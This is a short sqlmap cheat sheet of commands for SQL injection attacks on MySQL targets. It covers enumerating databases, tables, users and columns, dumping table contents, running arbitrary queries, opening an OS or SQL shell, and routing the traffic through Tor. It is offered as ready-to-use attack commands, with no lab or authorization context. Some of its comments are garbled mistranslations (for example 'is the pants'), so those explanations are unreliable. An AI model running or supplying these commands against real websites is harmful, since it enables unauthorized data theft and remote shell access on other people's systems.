 
# Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

# Enumerate tables
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

# Dump table data
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump

# Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

# Specify parameter to exploit in 'nice' URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1

# Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell

# Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell

# SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

# Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs

# Basic usage

./sqlmap.py -u "inject address" --dbs // enumerate database
./sqlmap.py -u "inject address" --current-db // current database
./sqlmap.py -u "inject address" --users // column database user
./sqlmap.py -u "inject address" --current-user // current user
./sqlmap.py -u "inject address" --tables -D "database" // enumerate the table name of the database
./sqlmap.py -u "inject address" --columns -T "table name" -D "database" // get the column name of the table
./sqlmap.py -u "inject address" --dump -C "field, field" -T "table name" -D "database" // get the data in the table, including the column, is the pants
